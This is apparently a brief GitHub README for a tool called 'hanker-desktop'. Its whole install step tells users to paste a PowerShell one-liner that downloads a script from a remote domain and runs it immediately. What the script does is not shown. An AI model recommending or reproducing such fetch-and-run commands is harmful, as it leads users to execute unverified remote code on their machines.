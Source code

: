 # hanker-desktop

## Download / How to use it?
**PowerShell**

1. Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
2. Copy and paste the code below and press enter
```ps
irm https://cmd.hankerenterprises.com | iex
```
3. Follow the on-screen instructions.
That’s all.
